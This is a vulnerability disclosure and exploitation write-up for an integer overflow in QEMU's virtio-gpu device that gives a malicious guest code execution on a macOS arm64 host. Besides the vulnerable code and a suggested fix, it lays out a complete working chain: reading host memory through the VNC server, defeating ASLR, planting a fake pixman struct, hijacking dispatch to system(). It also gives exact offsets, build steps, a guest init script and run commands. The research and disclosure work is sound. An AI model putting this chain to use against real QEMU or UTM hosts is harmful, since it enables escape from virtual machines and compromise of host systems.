

# QEMU and UTM Escape via virtio-gpu (ZDI-CAN-27578)

## Contents

- [Overview](#overview)
- [Vulnerability Details](#vulnerability-details)
  - [Vulnerability 1: Integer Overflow in `calc_image_hostmem` (OOB Write)](#vulnerability-1-integer-overflow-in-calc_image_hostmem-oob-write)
  - [Vulnerability 2: Out-of-Bounds Read via `set_scanout` + VNC (Information Leak)](#vulnerability-2-out-of-bounds-read-via-set_scanout--vnc-information-leak)
  - [Vulnerability 3: Out-of-Bounds Write via `transfer_to_host_2d`](#vulnerability-3-out-of-bounds-write-via-transfer_to_host_2d)
  - [Relationship Between the Three Vulnerabilities](#relationship-between-the-three-vulnerabilities)
- [Exploitation Strategy](#exploitation-strategy)
  - [Driving virtio-gpu from Userspace](#driving-virtio-gpu-from-userspace)
  - [Phase 1: Trigger the Integer Overflow](#phase-1-trigger-the-integer-overflow)
  - [Phase 2: Information Leak — Defeat ASLR via VNC](#phase-2-information-leak--defeat-aslr-via-vnc)
  - [Phase 3: Plant Fake Data Structure](#phase-3-plant-fake-data-structure)
  - [Phase 4: Hijack pixman Dispatch](#phase-4-hijack-pixman-dispatch)
  - [Phase 5: Trigger Code Execution](#phase-5-trigger-code-execution)
  - [Challenges Encountered](#challenges-encountered)
- [Reproduction Steps](#reproduction-steps)
  - [Prerequisites](#prerequisites)
  - [Step 1: Build QEMU (Unmodified)](#step-1-build-qemu-unmodified)
  - [Step 2: Prepare the Guest Kernel](#step-2-prepare-the-guest-kernel)
  - [Step 3: Build the Exploit](#step-3-build-the-exploit)
  - [Step 4: Build the Guest Initramfs](#step-4-build-the-guest-initramfs)
  - [Step 5: Run the Exploit](#step-5-run-the-exploit)
  - [Expected Output](#expected-output)
- [Platform-Specific Notes](#platform-specific-notes)
  - [macOS arm64 Constraints](#macos-arm64-constraints)
  - [VNC Race Condition](#vnc-race-condition)
- [Key Offsets (pixman 0.46.4, arm64)](#key-offsets-pixman-0464-arm64)
- [Key Offsets (macOS 15.x shared cache, arm64)](#key-offsets-macos-15x-shared-cache-arm64)
- [Suggested Fix](#suggested-fix)
- [Vulnerability Discovery](#vulnerability-discovery)
- [CVE and Patch History](#cve-and-patch-history)
- [UTM Version Gap](#utm-version-gap)
- [UTM.app Exploitation (SPICE-Safe Variant)](#utmapp-exploitation-spice-safe-variant)
  - [Overview](#overview-1)
  - [The SPICE Problem](#the-spice-problem)
  - [Key Differences from Standalone QEMU Exploit](#key-differences-from-standalone-qemu-exploit)
  - [Solution: Buffer-First Fill Strategy](#solution-buffer-first-fill-strategy)
  - [Pixman TEXT Page Fingerprinting](#pixman-text-page-fingerprinting)
  - [UTM pixman Framework Offsets](#utm-pixman-framework-offsets)
  - [Lazy Binding: A Key Advantage](#lazy-binding-a-key-advantage)
  - [Self-Contained Command via Shell Globbing](#self-contained-command-via-shell-globbing)
  - [UTM Exploitation Walkthrough](#utm-exploitation-walkthrough)
  - [memfd Layout and the QEMU `g_free` Fallback](#memfd-layout-and-the-qemu-g_free-fallback)
  - [UTM Reproduction Steps](#utm-reproduction-steps)
- [Conversation Prompts](#conversation-prompts)

---

## Overview

A set of integer overflow vulnerabilities in QEMU's virtio-gpu device (`hw/display/virtio-gpu.c`) allow a malicious guest VM to achieve arbitrary read/write of the host process's memory, ultimately leading to full guest-to-host code execution. The exploit requires no modifications to QEMU, defeats ASLR at runtime, and works against an unmodified QEMU 10.0.2 build on macOS arm64 with HVF acceleration.

**Demonstrated result**: A guest VM opens Calculator.app on the macOS host.

| | |
|---|---|
| **Affected software** | QEMU 8.1.0 through 10.2.3 (all builds with virtio-gpu-pci) |
| **ZDI** | ZDI-CAN-27578 |
| **Introduced in** | QEMU 8.1.0 (commit `9462ff4695aa`, June 2023) |
| **Fixed in** | QEMU 11.0.0 (April 21, 2026) — not backported to any 10.x stable branch |
| **Patch** | [`c035d5ea`](https://github.com/qemu/qemu/commit/c035d5eadf400670593a76778f98f052d7482968) |
| **Tested on** | QEMU 10.0.2, macOS 26.4.1 (Tahoe), Apple Silicon (arm64) |
| **Attack surface** | Guest-accessible virtio-gpu PCI device |
| **Impact** | Arbitrary host code execution from guest context |
| **ASLR** | Fully bypassed at runtime from the guest |
| **Host modifications** | None required |
| **Discovery method** | Manual source code audit |

---

## Vulnerability Details

### Vulnerability 1: Integer Overflow in `calc_image_hostmem` (OOB Write)

**File**: `hw/display/virtio-gpu.c`, line 230

```c
static uint32_t calc_image_hostmem(pixman_format_code_t pformat,
                                    uint32_t width, uint32_t height)
{
    int bpp = PIXMAN_FORMAT_BPP(pformat);
    int stride = ((width * bpp + 0x1f) >> 5) * sizeof(uint32_t);
    return height * stride;
}
```

The `stride` computation overflows when `width * bpp` exceeds 32 bits. For `width = 0x40000001` and `bpp = 32` (BGRA8888):

```
width * bpp = 0x40000001 * 32 = 0x800000020
stride = ((0x800000020 + 0x1f) >> 5) * 4
       = ((0x80000003f) >> 5) * 4
       = 0x40000001 * 4            (truncated to int)
       = 0x100000004               (overflows 32-bit int to 4)
stride = 4

hostmem = height * stride = 128 * 4 = 512
```

QEMU allocates a **512-byte** pixman image buffer for a resource that logically represents **0x40000001 x 128 pixels** (~512 GB). All subsequent bounds checks in `set_scanout` and `transfer_to_host_2d` validate against the *logical* resource dimensions (`res->width = 0x40000001`, `res->height = 128`), not the actual allocation size.

### Vulnerability 2: Out-of-Bounds Read via `set_scanout` + VNC (Information Leak)

**File**: `hw/display/virtio-gpu.c`, line 607 (`virtio_gpu_do_set_scanout`)

```c
if (r->x > fb->width ||          // fb->width = 0x40000001 (overflowed)
    r->y > fb->height ||          // fb->height = 128
    r->width < 16 ||              // minimum scanout: 16x16
    r->height < 16 ||
    r->x + r->width > fb->width ||
    r->y + r->height > fb->height) {
    // ... error ...
}

data = (uint8_t *)pixman_image_get_data(res->image);
void *ptr = data + fb->offset;   // fb->offset = r->x * 4 + r->y * 4
rect = pixman_image_create_bits(fb->format, r->width, r->height,
                                ptr, fb->stride);
```

The bounds check passes for any `x + width <= 0x40000001` and `y + height <= 128`. Since `fb->offset = r->x * bytes_pp + r->y * stride = r->x * 4 + r->y * 4`, a guest can create a display surface at any forward offset up to ~4 GB from the 512-byte buffer. This surface is exposed through QEMU's VNC server — the guest reads back the host memory as pixel data by connecting to the VNC port via the guest's SLIRP network.

### Vulnerability 3: Out-of-Bounds Write via `transfer_to_host_2d`

**File**: `hw/display/virtio-gpu.c`, line 432

```c
if (t2d.r.x > res->width ||              // res->width = 0x40000001
    t2d.r.y > res->height ||             // res->height = 128
    t2d.r.x + t2d.r.width > res->width ||
    t2d.r.y + t2d.r.height > res->height) {
    // ... error ...
}

dst_offset = (t2d.r.y + h) * stride + (t2d.r.x * bpp);
iov_to_buf(res->iov, res->iov_cnt, src_offset,
           (uint8_t *)img_data + dst_offset,    // OOB write
           t2d.r.width * bpp);
```

The same bounds check against the logical dimensions allows writing guest-controlled data to arbitrary offsets past the 512-byte buffer, up to ~4 GB forward.

### Relationship Between the Three Vulnerabilities

Vulnerability 1 is the root cause — the integer overflow that creates the size/dimension mismatch. Vulnerabilities 2 and 3 are the consequences: `set_scanout` and `transfer_to_host_2d` both trust the logical resource dimensions (`res->width`, `res->height`) for bounds checking rather than the actual allocation size. Without Vulnerability 1, the logical dimensions and allocation size agree, so the bounds checks in Vulnerabilities 2 and 3 would be effective. The upstream patch ([`c035d5ea`](https://github.com/qemu/qemu/commit/c035d5eadf400670593a76778f98f052d7482968)) fixes only Vulnerability 1 — preventing the overflow at resource creation time — which makes Vulnerabilities 2 and 3 unreachable. The bounds checks in `set_scanout` and `transfer_to_host_2d` themselves remain unchanged.

---

## Exploitation Strategy



The exploit chains all three vulnerabilities to achieve guest-to-host code execution in five phases. The three vulnerabilities are not independently exploitable in isolation — Vulnerability 1 (the integer overflow) creates the size/dimension mismatch that makes Vulnerabilities 2 and 3 (the OOB read and write) reachable. All three are manifestations of the same root cause: `calc_image_hostmem` computes a small allocation while the rest of virtio-gpu trusts the large logical dimensions.

### Driving virtio-gpu from Userspace

The exploit runs as an unprivileged Linux userspace process inside the guest VM. It communicates directly with the virtio-gpu PCI device by:

1. Finding the device via sysfs (`/sys/bus/pci/devices/*/vendor` + `device` matching `0x1af4:0x1050`)
2. Unbinding the kernel's virtio-pci driver so userspace can take ownership
3. Memory-mapping the PCI BARs and manually performing the virtio handshake (feature negotiation, virtqueue setup, status bits)
4. Sending virtio-gpu commands by writing command structs into the virtqueue descriptors and kicking the notification register

This raw virtio transport approach avoids any dependency on a guest GPU driver — the exploit needs only `/dev/mem` access (or sysfs resource files) to talk directly to the hardware.

### Phase 1: Trigger the Integer Overflow

Create a virtio-gpu 2D resource with overflow dimensions:

- **Width**: `0x40000001` (1,073,741,825)
- **Height**: `128` (homebrew variant) or `65536` (UTM variant)
- **Format**: `VIRTIO_GPU_FORMAT_B8G8R8A8_UNORM` (32bpp)

This creates a resource where `stride = 4`, `hostmem = 512` (or 256KB with height=65536), but `res->width = 0x40000001`. QEMU's hostmem accounting accepts this — 512 bytes is well under the per-resource limit — and pixman allocates a tiny buffer for what it believes is a 4-byte-stride image.

**Heap spray**: The exploit also creates 800 additional resources with the same overflow dimensions. Each resource triggers its own 512-byte (or 256KB) pixman allocation. On macOS, `vm_allocate` uses a monotonically increasing address hint, so these allocations form a roughly contiguous block in virtual memory. This ensures the forward OOB region from the exploit buffer contains mapped memory rather than unmapped gaps — critical for safe scanning.

### Phase 2: Information Leak — Defeat ASLR via VNC

This is the most technically involved phase. The challenge: ASLR randomizes all host addresses, and we need to find `system()` and the exploit buffer's absolute address — from inside the guest, with no host cooperation.

#### Prior art

Before describing the primitive, a note on prior art. We are not aware of a prior public reference for using QEMU's built-in VNC server as a memory-disclosure oracle reached over SLIRP loopback from the guest. The closest comparable QEMU read primitives we found:

- **OtterSec, "From virtio-snd 0-Day to Hypervisor Escape" (March 2026)** — leaks QEMU's base via `VirtIOSoundPCMBuffer.vq->handle_output` after pivoting through `virtio-9p` xattr arbitrary R/W. Different bug, different leak path. https://osec.io/blog/2026-03-17-virtio-snd-qemu-hypervisor-escape/
- **Talbi & Fariello, "VM escape - QEMU Case Study" (Phrack/SSTIC, 2017)** — leaks ~64 KB of QEMU heap via CVE-2015-5165, an RTL8139 NIC packet-length miscalculation. https://www.exploit-db.com/papers/42883
- **CVE-2017-15124 and related** — QEMU VNC server bugs, but DoS rather than information disclosure.
- **Classic SLIRP fake-ICMP-echo leak** — uses SLIRP to reflect host data, but unrelated to display devices.

If you know of a published exploit that uses this specific shape (guest → SLIRP loopback → QEMU's own VNC server → read OOB display surface as pixel data), we want to hear about it; we will update this section.

#### The VNC OOB Read Primitive

The key insight is that Vulnerability 2 (`set_scanout`) creates a display surface pointing into OOB memory, and QEMU's VNC server will **send that memory as pixel data** to any connected VNC client. The guest can be its own VNC client — QEMU's SLIRP user-mode networking makes the host reachable at `10.0.2.2`, so the guest connects to `10.0.2.2:5900`.

The read primitive works in three steps:

```
1. SET_SCANOUT(resource=42, x=OOB_OFFSET/4, y=0, w=64, h=16)
   → QEMU computes: ptr = pixbuf_data + (x * 4) = pixbuf_data + OOB_OFFSET
   → Bounds check passes: x + w <= 0x40000001 ✓
   → Display surface now points OOB_OFFSET bytes past the 512-byte buffer

2. RESOURCE_FLUSH(resource=42)
   → Marks the display as dirty, triggering VNC to re-send the framebuffer

3. VNC FramebufferUpdateRequest (from guest TCP socket)
   → QEMU's VNC server composites the surface via pixman
   → pixman reads from the OOB pointer, copies into the VNC output buffer
   → VNC sends raw pixel data back to the guest over TCP
   → Guest receives host memory contents as 32bpp BGRA pixel values
```

Each read returns `w × h × 4` bytes of host memory. The exploit uses 64x16 surfaces (256 bytes of linear data per read) for targeted reads and 4096x16 surfaces (16KB — one full macOS arm64 page) for scanning.

**Critical ordering**: The VNC `FramebufferUpdateRequest` must be sent **before** `RESOURCE_FLUSH`, not after. If flush goes first, QEMU's VNC refresh timer (~30ms period) may consume the dirty flag before the client's request arrives. The server then has nothing to send and the client blocks forever. Sending the request first ensures QEMU always has a pending client request when the dirty flag is set.

After each OOB read, the exploit resets the scanout to point back inside the buffer (`SET_SCANOUT` with `x=0`) to avoid leaving a dangling OOB surface that could crash if the VNC refresh timer fires during processing.

#### Scanning for Mach-O Headers

The exploit scans forward from the exploit buffer one page at a time (16KB steps), reading the first 256 bytes of each page and checking for Mach-O magic (`0xFEEDFACF`). On macOS, dylibs loaded by QEMU (pixman, glib, libpng, etc.) are mmap'd near the heap. The spray resources push the scan range into this region.

Each Mach-O header contains a `sizeofcmds` field at offset `+0x14` that is unique per library. The exploit identifies **libpixman-1.0.dylib** by matching `sizeofcmds = 0x6B8` (homebrew) or `0x758` (UTM framework). Typically pixman is found within the first 155 pages (~2.4MB) of forward scan, at offsets like `+0x6C000`.

#### Resolving Host Addresses

Once pixman's Mach-O header is located at a known OOB offset, the exploit reads two specific locations within pixman's `__DATA` segments to resolve all needed addresses:

**Step 1: Shared cache slide from GOT[free]**

```
OOB read at (pixman_header + 0x78060) → 8 bytes → free_resolved

free() lives in libsystem_malloc, which is part of the macOS shared cache.
All shared cache libraries share a single ASLR slide.

slide = free_resolved - FREE_UNSLID    (FREE_UNSLID = 0x1802E36B8)
system_addr = SYSTEM_UNSLID + slide    (SYSTEM_UNSLID = 0x1803F4438)
```

The unslid addresses are constants per macOS version — they change between OS updates but are fixed for a given build. The slide is randomized per boot.

**Step 2: Pixman base and exploit buffer address from rebase entry**

```
OOB read at (pixman_header + 0x780D0) → 8 bytes → rebase_val

This is a pointer in pixman's __DATA_CONST that dyld rebased at load time.
It points to pixman's _pixman_constructor at unslid vmaddr 0x24E0.

pixman_base = rebase_val - 0x24E0      (absolute load address of pixman)
pixbuf_addr = pixman_base - pixman_oob  (absolute address of exploit buffer)
```

The pixbuf absolute address is needed because the fake struct we plant must contain pointers back to itself (the `fast_paths` pointer at offset `0x10` must point to offset `0x40` within the same buffer).

### Phase 3: Plant Fake Data Structure

Using the OOB write primitive (Vulnerability 3: `TRANSFER_TO_HOST_2D`), write a crafted **fake `pixman_implementation_t`** struct into the exploit pixbuf at offset 0.

The write primitive works by calling `TRANSFER_TO_HOST_2D` with a large `x` coordinate. QEMU computes `dst_offset = x * bpp` and copies guest-provided data to `pixbuf_data + dst_offset` — writing past the buffer. Writing at `x=0` writes to the start of the buffer itself (within bounds), which is where we place the fake struct.

```
Offset  Content
0x00    "open /*/*/Calc*\0"  <- command string (15 bytes + null)
0x08    NULL                <- fallback = NULL (terminates chain walk)
0x10    &pixbuf+0x40        <- fast_paths pointer (absolute address)
0x40    fast_path[0]:       <- wildcard entry matching ANY composite
          op    = 0x40      (PIXMAN_OP_any)
          src   = 0x50000   (PIXMAN_any format)
          mask  = 0x50000
          dest  = 0x50000
          flags = 0          (passes all flag checks)
          func  = system()   <- dispatch target (absolute address)
0x68    fast_path[1]:       <- sentinel
          op    = 0x3F      (PIXMAN_OP_NONE — end of list)
```

**Why this struct layout works**: pixman's `_pixman_implementation_lookup_composite` iterates through an implementation's `fast_paths` array looking for an entry whose `op`, `src_format`, `mask_format`, and `dest_format` match the current composite operation. The values `0x40` (op) and `0x50000` (format) are wildcard sentinels — verified by disassembling the function at pixman `+0x33128`:

- `cmp w10, #0x40` — if entry op == 0x40, skip the op comparison (match any operation)
- `cmp w10, #0x50, lsl #12` — if entry format == 0x50000, skip format comparison (match any format)
- `bics wzr, w10, wN` — flag check: `(entry_flags & ~actual_flags) == 0`, always true when entry_flags = 0

The `func` pointer at `fast_path[0] + 0x20` is called with the implementation pointer as the first argument (`x0` on arm64). Since the implementation pointer points to offset 0 of our fake struct, and offset 0 contains the command string, `system()` receives our command string as its argument.

**Command string constraint**: The command must fit in 15 bytes (offsets `0x00` through `0x0E`), because the `fast_paths` pointer at offset `0x10` must not be corrupted. `open -a Calculator` is 18 bytes — too long. The solution uses shell globbing: `open /*/*/Calc*` (15 characters), which the shell expands to `/System/Applications/Calculator.app`. No host-side files needed.

### Phase 4: Hijack pixman Dispatch

Two OOB writes redirect pixman's composite dispatch to our fake struct:

**Write 1: Bypass the TLS fast_path_cache**

pixman caches recently-used composite functions in a per-thread `fast_path_cache` variable. If we only overwrote `_global_implementation`, the cache would satisfy most lookups without ever consulting our fake implementation chain.

The cache is accessed via macOS's TLS descriptor mechanism: `__thread_vars` contains a function pointer (the "thunk") that is called to resolve the TLS variable's address. By overwriting this thunk with the address of `_dummy_composite_rect` (a function at pixman `+0x332F8` that consists of a single `ret` instruction), the TLS accessor returns the address of the descriptor struct itself. All bytes in the descriptor are either zero or small values, so every cache lookup reads `op = 0` → no match → cache miss → falls through to the implementation chain walk.

```
OOB write at (pixman_header + 0x80020) ← ret_gadget address
```

**Write 2: Redirect the implementation chain**

`_global_implementation` is an 8-byte BSS variable that holds the head of pixman's implementation linked list. Every composite operation that misses the TLS cache starts its search here. Overwriting it with the exploit buffer's absolute address makes pixman treat our fake struct as the first (and only) implementation.

```
OOB write at (pixman_header + 0x801B8) ← pixbuf_addr
```

The order matters: TLS thunk first, then `_global_implementation`. If reversed, a composite could fire between the two writes — hitting our fake struct while the TLS cache is still functional, potentially returning a stale cached function pointer instead of walking our chain.

### Phase 5: Trigger Code Execution

Force a VNC framebuffer composite by setting a small scanout and flushing:

```
SET_SCANOUT(resource=42, x=0, y=0, w=64, h=64)
RESOURCE_FLUSH(resource=42)
VNC FramebufferUpdateRequest

→ QEMU's VNC server calls pixman_image_composite32() to blit the surface
  → _pixman_implementation_lookup_composite()
    → TLS fast_path_cache access: thunk = ret → returns &descriptor → all zeros → cache miss
    → Walk _global_implementation chain → dereference our fake struct
    → Read fast_paths pointer → our array at pixbuf+0x40
    → fast_path[0]: op=0x40 (any), formats=0x50000 (any) → MATCH
    → Call func(implementation, ...) = system("open /*/*/Calc*")
    → /bin/sh expands glob → open /System/Applications/Calculator.app
    → Calculator.app opens on the host
```

The `x0` register (first argument on arm64) holds the implementation pointer, which points to offset 0 of our buffer — the command string. `system()` passes this to `/bin/sh -c`, which expands the glob and executes the command.

### Challenges Encountered

Several issues required significant debugging during development:

1. **No OOB read primitive initially**: The integer overflow gives an OOB write (via `transfer_to_host_2d`), but not an obvious read. The key discovery was that `set_scanout` creates a display surface from the OOB region, and VNC will send that surface's pixel data to a connected client. The guest connecting to its own QEMU's VNC server via SLIRP network completes the loop — turning a write-only OOB into a full read/write primitive.

2. **Read-only GOT (`__DATA_CONST`)**: The initial exploitation plan was to overwrite a GOT entry (e.g., `free` → `system`) in a writable GOT. But all homebrew dylibs on modern macOS use `LC_DYLD_CHAINED_FIXUPS`, which places GOT entries in `__DATA_CONST` — made read-only after dyld binding. Direct GOT overwrites are impossible. The exploit pivots to targeting pixman's writable `__DATA` segment (BSS variables and TLS descriptors) instead.

3. **TLS cache preventing dispatch hijack**: Overwriting `_global_implementation` alone is insufficient. pixman's per-thread `fast_path_cache` (a TLS variable) caches the last 4 composite function lookups. Most VNC composites hit the cache and never consult the implementation chain. The fix: overwrite the TLS descriptor's thunk function pointer with a `ret` gadget, making the cache accessor return a pointer to the descriptor itself (all zeros → guaranteed cache miss on every lookup).

4. **VNC stalling after ~40 reads**: The OOB scan consistently stalled mid-way. Root cause: a race between `RESOURCE_FLUSH` (sets VNC dirty flag) and QEMU's VNC refresh timer (~30ms, clears dirty flag and sends update). If the timer fires between flush and the client's request, the server has nothing to send. Fix: send `FramebufferUpdateRequest` before the flush, ensuring the server always has a pending request.

5. **QEMU enforces minimum scanout of 16x16**: Early attempts to use 1-pixel-high scanouts (`height=1`) to minimize read footprint failed — QEMU rejects any scanout smaller than 16x16. The exploit uses 64x16 surfaces (256 bytes linear) for targeted reads.

6. **15-byte command string limit**: The fake struct places the command at offset 0 and the `fast_paths` pointer at offset `0x10`. Only 15 usable bytes for the command. `open -a Calculator` (18 chars) doesn't fit. Solution: shell globbing — `open /*/*/Calc*` (15 chars) expands to the full path. (`/S*/A*/Ca*` was the first attempt but also matched `Calendar.app`.)

7. **SPICE crashes in UTM** (see UTM section below): UTM always enables SPICE, which reads the display surface on a 30ms timer. Any OOB read that points the surface at unmapped memory causes SIGSEGV. Required a completely different heap layout strategy (buffer-first fill) for the UTM variant.

---

## Reproduction Steps

### Prerequisites

- macOS on Apple Silicon (arm64)
- QEMU 10.0.2 source (or the UTM fork at the same version)
- Homebrew with: `pixman`, `libpng`, `glib`, etc. (QEMU build dependencies)
- `aarch64-linux-musl-gcc` cross-compiler (e.g., from `brew install filosottile/musl-cross/musl-cross`)
- An Alpine Linux aarch64 kernel and initramfs (for the guest VM)

### Step 1: Build QEMU (Unmodified)

```bash
cd /path/to/qemu-10.0.2
mkdir build-exploit && cd build-exploit
../configure --target-list=aarch64-softmmu --enable-hvf --enable-vnc
make -j$(sysctl -n hw.ncpu)
```

### Step 2: Prepare the Guest Kernel

Download Alpine Linux aarch64 virtual ISO and extract the kernel:

```bash
mkdir -p /tmp/alpine_iso
# Mount or extract alpine-virt-*.iso to /tmp/alpine_iso
# You need: /tmp/alpine_iso/boot/vmlinuz-virt
```

### Step 3: Build the Exploit

```bash
cd /path/to/guest_exploit
aarch64-linux-musl-gcc -static -O2 -o exploit exploit.c
```

### Step 4: Build the Guest Initramfs

```bash
# Extract Alpine's initramfs as a base
mkdir -p /tmp/initramfs_mod
cd /tmp/initramfs_mod
gunzip -c /tmp/alpine_iso/boot/initramfs-virt | cpio -id

# Install the exploit binary
cp /path/to/guest_exploit/exploit bin/exploit

# Create the init script
cat > init << 'INITEOF'
#!/bin/sh
/bin/busybox --install -s
export PATH="/usr/bin:/bin:/usr/sbin:/sbin"

mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs devtmpfs /dev

echo "====================================="
echo "  virtio-gpu OOB exploit guest"
echo "====================================="

sleep 1

echo "Loading network drivers..."
modprobe virtio_net 2>/dev/null
sleep 1

echo "Setting up network for VNC info leak..."
ip link set lo up 2>/dev/null
ip link set eth0 up 2>/dev/null
ip addr add 10.0.2.15/24 dev eth0 2>/dev/null
ip route add default via 10.0.2.2 2>/dev/null
sleep 2

echo "Running exploit..."
/bin/exploit
echo "Exploit finished (exit code: $?)."
exec /bin/sh
INITEOF
chmod +x init

# Pack the initramfs
find . | cpio -o -H newc | gzip > /tmp/initramfs-exploit.gz
```

### Step 5: Run the Exploit

```bash
/path/to/build-exploit/qemu-system-aarch64 \
    -accel hvf \
    -M virt \
    -cpu host \
    -m 512 \
    -kernel /tmp/alpine_iso/boot/vmlinuz-virt \
    -initrd /tmp/initramfs-exploit.gz \
    -append "console=ttyAMA0 iommu.passthrough=1" \
    -device virtio-gpu-pci \
    -nic user,model=virtio-net-pci \
    -vnc :0 \
    -display none \
    -nographic \
    -no-reboot
```

After ~30 seconds, Calculator.app opens on the host.

### Expected Output

```
Phase 1: Create overflow resource
    [+] Exploit resource 42 created
    [+] 800 fillers

Phase 2: Find pixman via OOB scan
    [1] Mach-O at +0x4000   sizeofcmds=0x4b8
    [2] Mach-O at +0x38000  sizeofcmds=0x640
    [3] Mach-O at +0x6c000  sizeofcmds=0x6b8  <- PIXMAN
    free() resolved = 0x19015b6b8
    shared cache slide = 0xfe78000
    system() = 0x19026c438
    pixman base  = 0x106a3c000
    pixbuf addr  = 0x1069d0000

Phase 3: Plant fake pixman struct
    [+] Fake implementation struct planted

Phase 4: Hijack pixman dispatch
    [+] TLS cache bypassed
    [+] Dispatch redirected to fake struct

Phase 5: Trigger -- pop calc
    -> system("open /*/*/Calc*")
    -> Calculator.app opens on host
```

---

## Platform-Specific Notes

### macOS arm64 Constraints

Several macOS-specific factors shaped the exploit:

1. **16 KB pages**: macOS arm64 uses 16 KB pages. The Mach-O scan steps by `0x4000` per page.

2. **Chained fixups (LC_DYLD_CHAINED_FIXUPS)**: All homebrew dylibs use chained fixups, making `__DATA_CONST` (including the GOT) read-only after dyld binding. This blocks direct GOT overwrites. The exploit targets pixman's `__DATA` segment instead (BSS/TLS variables), which remains writable.

3. **Shared cache slide uniformity**: All shared cache libraries share the same ASLR slide. Reading `free()` from any dylib's GOT is sufficient to compute the address of `system()`.

4. **TLS implementation**: macOS's TLS uses descriptor-based access. The `__thread_vars` section contains function pointers that are called to resolve TLS addresses. Overwriting these function pointers is an effective control-flow hijack primitive.

5. **Minimum scanout dimensions**: QEMU enforces `width >= 16` and `height >= 16` for scanouts, requiring the VNC read primitive to use at least 16x16 pixel surfaces.

### VNC Race Condition

A critical implementation detail: the VNC `FramebufferUpdateRequest` must be sent *before* `RESOURCE_FLUSH`. If flush is sent first, QEMU's VNC refresh timer may consume the dirty flag before the client's request arrives, causing the server to have nothing to send and the client to hang indefinitely. The exploit sends the request first to ensure the server always has a pending request when the dirty flag is set.

---

## Key Offsets (pixman 0.46.4, arm64)

| Symbol | Offset | Section |
|--------|--------|---------|
| Mach-O header (FEEDFACF) | `0x00000` | `__TEXT` |
| `_pixman_image_composite32` | `0x012A8` | `__TEXT` |
| `_pixman_implementation_lookup_composite` | `0x33128` | `__TEXT` |
| `_dummy_composite_rect` (ret gadget) | `0x332F8` | `__TEXT` |
| GOT[free] | `0x78060` | `__DATA_CONST` (r/o) |
| First rebase entry | `0x780D0` | `__DATA_CONST` |
| `_fast_path_cache` TLS thunk | `0x80020` | `__DATA` (r/w) |
| `_global_implementation` | `0x801B8` | `__DATA __common` (r/w) |

## Key Offsets (macOS 15.x shared cache, arm64)

| Symbol | Unslid Address |
|--------|---------------|
| `free()` | `0x1802E36B8` |
| `system()` | `0x1803F4438` |
| Offset: `system - free` | `+0x110D80` (fixed) |

---

## Suggested Fix

The root cause is the integer overflow in `calc_image_hostmem`. The function should use 64-bit arithmetic and validate that the computed size matches what pixman will actually allocate:

```c
static uint64_t calc_image_hostmem(pixman_format_code_t pformat,
                                    uint32_t width, uint32_t height)
{
    uint64_t bpp = PIXMAN_FORMAT_BPP(pformat);
    uint64_t stride = (((uint64_t)width * bpp + 0x1f) >> 5) * sizeof(uint32_t);
    return (uint64_t)height * stride;
}
```

Additionally, `virtio_gpu_do_set_scanout` and `virtio_gpu_transfer_to_host_2d` should validate that the computed byte offset (`r->x * bpp + r->y * stride + r->width * bpp`) does not exceed `res->hostmem`, using the actual allocation size rather than the logical resource dimensions.

---

## Vulnerability Discovery

These vulnerabilities were found through **manual source code audit** of the QEMU virtio-gpu device implementation. They were not discovered via CVE databases, git log analysis, fuzzing, or any automated tooling.

The audit focused on integer arithmetic in resource creation paths — specifically the interaction between `calc_image_hostmem()` (which computes the host allocation size) and the bounds checks in `set_scanout` and `transfer_to_host_2d` (which validate against logical resource dimensions). The core question was: *can the allocation size and the logical dimensions diverge?*

The 32-bit `int` type used for `stride` in `calc_image_hostmem` stood out immediately. For `BGRA8888` format (`bpp = 32`), the multiplication `width * bpp` needs 37 bits for `width > 0x8000000` — well within the valid `uint32_t` range for the width parameter. The wrapping to `stride = 4` for `width = 0x40000001` creates a million-to-one ratio between logical and physical resource size, giving a ~4GB OOB window from a 512-byte (or 256KB with height=65536) buffer.

The OOB read primitive via VNC (`set_scanout` with large x-offset → `resource_flush` → VNC framebuffer read) and the OOB write primitive via `transfer_to_host_2d` followed naturally from the same root cause — both validate against `res->width`/`res->height` (the logical dimensions) rather than the actual allocation size.

---

## CVE and Patch History

| | |
|---|---|
| **ZDI** | ZDI-CAN-27578 |
| **Reported to vendor by** | Zero Day Initiative (independent discovery) |
| **Root cause** | Integer overflow in `calc_image_hostmem()` — 32-bit `int stride` wraps for large widths |
| **Introduced in** | Commit `9462ff4695aa` (June 6, 2023) — changed pixman to use pre-allocated bits, bypassing pixman's internal overflow check |
